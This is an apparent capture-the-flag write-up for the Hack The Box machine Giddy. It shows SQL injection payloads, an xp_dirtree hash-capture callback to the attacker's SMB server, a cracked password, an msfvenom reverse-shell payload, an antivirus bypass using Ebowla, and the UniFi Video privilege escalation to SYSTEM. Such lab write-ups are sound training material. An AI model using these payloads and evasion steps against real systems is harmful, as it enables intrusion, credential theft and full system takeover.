








# Giddy - Medium

Target IP: **10.129.96.140**

## User Flag

Initial scan: ```sudo nmap -sC -sV -p- 10.129.96.140 -v```

Output shows http servers on port 80 and 5985, port 443 for https, and surprisingly port 3389 for RDP.

```
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
443/tcp  open  ssl/http      Microsoft IIS httpd 10.0
| tls-alpn: 
|   h2
|_  http/1.1
|_ssl-date: 2026-10-28T00:17:01+00:00; 0s from scanner time.
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
| ssl-cert: Subject: commonName=PowerShellWebAccessTestWebSite
| Issuer: commonName=PowerShellWebAccessTestWebSite
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2018-06-16T21:28:55
| Not valid after:  2018-09-14T21:28:55
| MD5:   78a7:4af5:3b09:c882:a149:f977:cf8f:1182
|_SHA-1: 8adc:3379:878a:f13f:0154:406a:3ead:d345:6967:6a23
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=Giddy
| Issuer: commonName=Giddy
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-10-26T13:03:40
| Not valid after:  2027-04-27T13:03:40
| MD5:   4047:3d5c:e268:a119:6daf:8a19:e21c:289e
|_SHA-1: d0ad:de0f:fedc:81b8:081f:27c9:4f76:4620:c4f4:7d30
|_ssl-date: 2026-10-28T00:17:01+00:00; 0s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: GIDDY
|   NetBIOS_Domain_Name: GIDDY
|   NetBIOS_Computer_Name: GIDDY
|   DNS_Domain_Name: Giddy
|   DNS_Computer_Name: Giddy
|   Product_Version: 10.0.14393
|_  System_Time: 2026-10-28T00:16:56+00:00
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

Let's look at port 80 first.

We see a picture of a very happy dog.



There's nothing here, so let's enumerate further.

We get some interesting hits.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-9ujklqwcuw]─[~]
└──╼ [★]$ ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://10.129.96.140/FUZZ -ic -ac

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.129.96.140/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
 :: Follow redirects : false
 :: Calibration      : true
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

                        [Status: 200, Size: 700, Words: 27, Lines: 32, Duration: 11ms]
remote                  [Status: 302, Size: 157, Words: 6, Lines: 4, Duration: 7ms]
mvc                     [Status: 301, Size: 148, Words: 9, Lines: 2, Duration: 7ms]
```

At ```/remote```, we are presented with a web access portal for Windows PowerShell on the remote machine. However, we do need valid credentials. We can also see that the machine is running Windows Server 2016.



At ```/mvc```, there is another ASP.NET application.



Pressing on the product names navigates us to ```Product.aspx```. It seems like the ```ProductSubCategoryId``` parameter is being passed into a database query, which then returns back to us the results. Changing the ID in the url gives different results, which opens us up to IDOR, but unlikely because we are inside a database, likely executing queries against a table. What seems most likely is a possible SQLi vulnerability here we can exploit.



The search functionality is similar, likely returning the results from a query that takes in our search term. This time however, it is sent as a POST request.



Sending a basic SQLi payload confirms that ```search.aspx``` is vulnerable.



```Product.aspx``` is also vulnerable. Appending ```OR 1=1-- -``` to the ID returns every item.



We could use sqlmap here to enumerate the databases, but there is a quicker way, especially since we are on Windows. Windows allows stacked database queries, allowing us to append a semicolon to one query and subsequently execute the next query. We could try to use ```xp_dirtree``` to capture a hash in this way.

Let's start an SMB server on our attack box.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-9ujklqwcuw]─[~]
└──╼ [★]$ impacket-smbserver share . -smb2support
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
```

Also start up Responder.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-9ujklqwcuw]─[~]
└──╼ [★]$ sudo responder -I tun0
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.1.3.0

  To support this project:
  Patreon -> https://www.patreon.com/PythonResponder
  Paypal  -> https://paypal.me/PythonResponder

  Author: Laurent Gaffie (laurent.gaffie@gmail.com)
  To kill this script hit CTRL-C


[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    MDNS                       [ON]
    DNS                        [ON]
    DHCP                       [OFF]

[+] Servers:
    HTTP server                [ON]
    HTTPS server               [ON]
    WPAD proxy                 [OFF]
    Auth proxy                 [OFF]
    SMB server                 [ON]
    Kerberos server            [ON]
    SQL server                 [ON]
    FTP server                 [ON]
    IMAP server                [ON]
    POP3 server                [ON]
    SMTP server                [ON]
    DNS server                 [ON]
    LDAP server                [ON]
    RDP server                 [ON]
    DCE-RPC server             [ON]
    WinRM server               [ON]

[+] HTTP Options:
    Always serving EXE         [OFF]
    Serving EXE                [OFF]
    Serving HTML               [OFF]
    Upstream Proxy             [OFF]

[+] Poisoning Options:
    Analyze Mode               [OFF]
    Force WPAD auth            [OFF]
    Force Basic Auth           [OFF]
    Force LM downgrade         [OFF]
    Force ESS downgrade        [OFF]

[+] Generic Options:
    Responder NIC              [tun0]
    Responder IP               [10.10.15.194]
    Responder IPv6             [dead:beef:2::11c0]
    Challenge set              [random]
    Don't Respond To Names     ['ISATAP']

[+] Current Session Variables:
    Responder Machine Name     [WIN-UZQ6LX3V07B]
    Responder Domain Name      [ZSGV.LOCAL]
    Responder DCE-RPC Port     [45118]

[+] Listening for events...

[!] Error starting TCP server on port 80, check permissions or other servers running.
[!] Error starting TCP server on port 445, check permissions or other servers running.
[!] Error starting TCP server on port 53, check permissions or other servers running.
```

We can navigate to this url now, appending the ```xp_dirtree``` command to search our fake share.

```
http://10.129.96.140/mvc/Product.aspx?ProductSubCategoryId=5;%20EXEC%20xp_dirtree%20%27\\10.10.15.194\share%27--%20-
```

After doing so, we indeed do capture a hash for ```Stacy```.

```
[*] User GIDDY\Stacy authenticated successfully
[*] Stacy::GIDDY:aaaaaaaaaaaaaaaa:9eed0b50c86d79a8f66a97560b7d33bc:0101000000000000809b07b27666dd01450d5564fa92e9a300000000010010004600510075005a005800760051007700030010004600510075005a005800760051007700020010004800530045006b006c00590074006a00040010004800530045006b006c00590074006a0007000800809b07b27666dd0106000400020000000800300030000000000000000000000000300000c07cbfbb473a6f425261922d538f494f0a5aad263857a5816062ccb46c46293c0a001000000000000000000000000000000000000900220063006900660073002f00310030002e00310030002e00310035002e00310039003400000000000000000000000000
```

Hashcat is able to crack this hash for us.

```
STACY::GIDDY:aaaaaaaaaaaaaaaa:9eed0b50c86d79a8f66a97560b7d33bc:0101000000000000809b07b27666dd01450d5564fa92e9a300000000010010004600510075005a005800760051007700030010004600510075005a005800760051007700020010004800530045006b006c00590074006a00040010004800530045006b006c00590074006a0007000800809b07b27666dd0106000400020000000800300030000000000000000000000000300000c07cbfbb473a6f425261922d538f494f0a5aad263857a5816062ccb46c46293c0a001000000000000000000000000000000000000900220063006900660073002f00310030002e00310030002e00310035002e00310039003400000000000000000000000000:xNnWo6272k7x
```

We should be able to authenticate with ```evil-winrm``` now.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-9ujklqwcuw]─[~]
└──╼ [★]$ evil-winrm -i 10.129.96.140 -u Stacy -p xNnWo6272k7x
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Stacy\Documents> whoami
giddy\stacy
```

We can proceed to get the user flag from here.

## Root Flag

There is an unusual file in ```Stacy```'s documents folder.

```
*Evil-WinRM* PS C:\Users\Stacy\Documents> dir


    Directory: C:\Users\Stacy\Documents


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        6/17/2018   9:36 AM              6 unifivideo
```

Looking inside, it only says "stop."

```
*Evil-WinRM* PS C:\Users\Stacy\Documents> type unifivideo
stop
```

This seems like something that would be generated by a scheduled task or some process already running on the machine.

Let's first look online for publicly disclosed vulnerabilities for ```unifivideo```. There indeed is a privilege escalation vulnerability for ```unifivideo```, CVE-2016-6914. This is because ```avService``` runs with system privileges, and tries to execute ```C:\ProgramData\unifi-video\taskkill.exe``` whenever the service is started or stopped. However, standard users can write to the default installation directory, which means we can simply place a malicious ```taskkill.exe``` in the directory and have it execute as system.

Let's try it.

This is the service running for UniFi Video.

```
*Evil-WinRM* PS C:\ProgramData\unifi-video> Get-Service "Ubiquiti UniFi Video"

Status   Name               DisplayName
------   ----               -----------
Running  UniFiVideoService  Ubiquiti UniFi Video
```

And this is the ```avService``` process that runs ```taskkill.exe```.

```
*Evil-WinRM* PS C:\Program Files (x86)> Get-Process

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------
   1164      56   350108     221560              1268   0 avService
```

We need to first generate a payload. The machine has an x64 architecture.

```
*Evil-WinRM* PS C:\Program Files (x86)> $env:PROCESSOR_ARCHITECTURE
AMD64
```

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-9ujklqwcuw]─[~]
└──╼ [★]$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.15.194 LPORT=4444 -f exe -o taskkill.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7680 bytes
Saved as: taskkill.exe
```

We can transfer it over to the remote machine now.

```
*Evil-WinRM* PS C:\Program Files (x86)> Invoke-WebRequest -Uri "http://10.10.15.194:8000/taskkill.exe" -OutFile "C:\ProgramData\unifi-video\taskkill.exe"
```

We can see that our payload is now sitting in the installation directory.

```
*Evil-WinRM* PS C:\ProgramData\unifi-video> dir


    Directory: C:\ProgramData\unifi-video


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        6/16/2018   9:54 PM                bin
d-----        6/16/2018   9:55 PM                conf
d-----        6/16/2018  10:56 PM                data
d-----        6/16/2018   9:54 PM                email
d-----        6/16/2018   9:54 PM                fw
d-----        6/16/2018   9:54 PM                lib
d-----       10/27/2026   9:06 AM                logs
d-----        6/16/2018   9:55 PM                webapps
d-----        6/16/2018   9:55 PM                work
-a----        7/26/2017   6:10 PM         219136 avService.exe
-a----        6/17/2018  11:23 AM          31685 hs_err_pid1992.log
-a----        8/16/2018   7:48 PM         270597 hs_err_pid2036.mdmp
-a----       10/27/2026   9:12 PM           7680 taskkill.exe
-a----        6/16/2018   9:54 PM            780 Ubiquiti UniFi Video.lnk
-a----        7/26/2017   6:10 PM          48640 UniFiVideo.exe
-a----        7/26/2017   6:10 PM          32038 UniFiVideo.ico
-a----        6/16/2018   9:54 PM          89050 Uninstall.exe
```

Now, since the service is running, we can stop the process and hope for a connection back on our listener.

However, stopping the service did not give us a shell. I noticed that after running the command, the payload was wiped off the directory.

```
*Evil-WinRM* PS C:\ProgramData\unifi-video> Stop-Service UniFiVideoService
Warning: Waiting for service 'Ubiquiti UniFi Video (UniFiVideoService)' to stop...
Warning: Waiting for service 'Ubiquiti UniFi Video (UniFiVideoService)' to stop...
*Evil-WinRM* PS C:\ProgramData\unifi-video> dir


    Directory: C:\ProgramData\unifi-video


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        6/16/2018   9:54 PM                bin
d-----        6/16/2018   9:55 PM                conf
d-----        6/16/2018  10:56 PM                data
d-----        6/16/2018   9:54 PM                email
d-----        6/16/2018   9:54 PM                fw
d-----        6/16/2018   9:54 PM                lib
d-----       10/27/2026   9:06 AM                logs
d-----        6/16/2018   9:55 PM                webapps
d-----        6/16/2018   9:55 PM                work
-a----        7/26/2017   6:10 PM         219136 avService.exe
-a----        6/17/2018  11:23 AM          31685 hs_err_pid1992.log
-a----        8/16/2018   7:48 PM         270597 hs_err_pid2036.mdmp
-a----        6/16/2018   9:54 PM            780 Ubiquiti UniFi Video.lnk
-a----        7/26/2017   6:10 PM          48640 UniFiVideo.exe
-a----        7/26/2017   6:10 PM          32038 UniFiVideo.ico
-a----        6/16/2018   9:54 PM          89050 Uninstall.exe
```

Transferring the payload again, we find that we can't run executables because of Windows Defender.

```
*Evil-WinRM* PS C:\ProgramData\unifi-video> .\taskkill.exe
Program 'taskkill.exe' failed to run: Operation did not complete successfully because the file contains a virus or potentially unwanted softwareAt line:1 char:1
+ .\taskkill.exe
+ ~~~~~~~~~~~~~~.
At line:1 char:1
+ .\taskkill.exe
+ ~~~~~~~~~~~~~~
    + CategoryInfo          : ResourceUnavailable: (:) [], ApplicationFailedException
    + FullyQualifiedErrorId : NativeCommandFailed
```

We need to bypass this somehow, most likely using some encoding techniques.

I wasn't familiar with this previously, but we can use ```ebowla```, which is an environmental keying mechanism.

After cloning the repo and installing dependencies, we can edit the ```generic.config``` file. This is environmental information that will be used to generate a key to unlock the contents of the payload.



We can now run it to generate our new payload.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-9ujklqwcuw]─[~/Ebowla]
└──╼ [★]$ python2 ebowla.py ../taskkill.exe genetic.config
[*] Using Symmetric encryption
[*] Payload length 7680
[*] Payload_type exe
[*] Using EXE payload template
[*] Used environment variables:
	[-] environment value used: computername, value used: giddy
[!] Path string not used as pasrt of key
[!] External IP mask NOT used as part of key
[!] System time mask NOT used as part of key
[*] String used to source the encryption key: giddy
[*] Applying 10000 sha512 hash iterations before encryption
[*] Encryption key: 91798b223b0690d70e3934063458f6bd14279758a6fe1bc78ff0c7fdb489be0c
[*] Writing GO payload to: go_symmetric_taskkill.exe.go
```

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-9ujklqwcuw]─[~/Ebowla]
└──╼ [★]$ ./build_x64_go.sh output/go_symmetric_taskkill.exe.go taskkill.exe
[*] Copy Files to tmp for building
[*] Building...
[*] Building complete
[*] Copy taskkill.exe to output
[*] Cleaning up
[*] Done
```

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-9ujklqwcuw]─[~/Ebowla/output]
└──╼ [★]$ file taskkill.exe
taskkill.exe: PE32+ executable for MS Windows 6.01 (console), x86-64, 22 sections
```

Let's transfer this over to the remote machine and see if it works.

We can just try running it by itself first.

We still can't run the executable, but it's not an AV error, just a lack of privilieges.

```
*Evil-WinRM* PS C:\ProgramData\unifi-video> .\taskkill.exe
Program 'taskkill.exe' failed to run: This program is blocked by group policy. For more information, contact your system administratorAt line:1 char:1
+ .\taskkill.exe
+ ~~~~~~~~~~~~~~.
At line:1 char:1
+ .\taskkill.exe
+ ~~~~~~~~~~~~~~
    + CategoryInfo          : ResourceUnavailable: (:) [], ApplicationFailedException
    + FullyQualifiedErrorId : NativeCommandFailed
```

This is a good sign, we should be able to have this payload execute if called by system. Let's try the exploit again.

After stopping the service, it hangs, which is good.

```
*Evil-WinRM* PS C:\ProgramData\unifi-video> Stop-Service UniFiVideoService
Warning: Waiting for service 'Ubiquiti UniFi Video (UniFiVideoService)' to stop...
Warning: Waiting for service 'Ubiquiti UniFi Video (UniFiVideoService)' to stop...
Warning: Waiting for service 'Ubiquiti UniFi Video (UniFiVideoService)' to stop...
Warning: Waiting for service 'Ubiquiti UniFi Video (UniFiVideoService)' to stop...
Warning: Waiting for service 'Ubiquiti UniFi Video (UniFiVideoService)' to stop...
```

Checking in on our listener, we caught a system shell.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-9ujklqwcuw]─[~]
└──╼ [★]$ nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.129.96.140 49748
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\ProgramData\unifi-video>whoami
whoami
nt authority\system
```

We can proceed to get the root flag from here.

Nice pwn!

## Contact

Email: <johnyang4406@gmail.com>, <john_s_yang@brown.edu>

LinkedIn: <https://www.linkedin.com/in/john-yang-747726292/>

HackTheBox: <https://profile.hackthebox.com/profile/019c423f-9b9b-708f-8b31-55983b89dddd?utm_medium=copy_url/>
